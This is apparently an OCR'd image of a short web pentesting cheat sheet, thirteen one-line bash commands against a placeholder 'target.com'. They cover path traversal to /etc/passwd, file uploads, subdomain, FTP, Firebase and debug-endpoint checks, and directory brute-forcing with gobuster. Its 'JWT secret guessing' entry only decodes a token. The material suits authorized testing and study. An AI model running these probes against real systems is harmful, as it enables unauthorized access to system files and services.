 Fast Path Traversal Discovery  
```bash
curl "https://target.com/download?file=../../../../etc/passwd"
```

Testing File Upload Handling  
```bash
curl -F "file=@/etc/passwd" https://target.com/upload
```

Subdomain Takeover Check (CNAME)  
```bash
dig cname sub.target.com
```

Check for Anonymous FTP Access  
```bash
ftp target.com
```

Backup Files Finder  
```bash
curl -I https://target.com/index.php.bak
```

CloudFront Misconfiguration Detection  
```bash
curl -I https://target.cloudfront.net
```

Public Trello/Slack Links in Code  
```bash
gh search code "trello.com/b/" --repo target/repo
```

Email Spoofing via Misconfigured SPF  
```bash
dig txt target.com
```

Weak JWT Secret Guessing  
```bash
echo -n 'eyJhbGciOiAiSFMyNTYifQ.eyJ1c2VyIjogImFkbWluIn0' | base64 -d
```

Test for Public Firebase Storage  
```bash
curl -s https://target.firebaseio.com/.json
```

Unrestricted File Download (Insecure Direct Object Reference)  
```bash
curl -s https://target.com/files/1.pdf
```

Discover Admin Portals  
```bash
gobuster dir -u https://target.com -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

Check for Debug Endpoints  
```bash
curl -s https://target.com/debug/vars
```
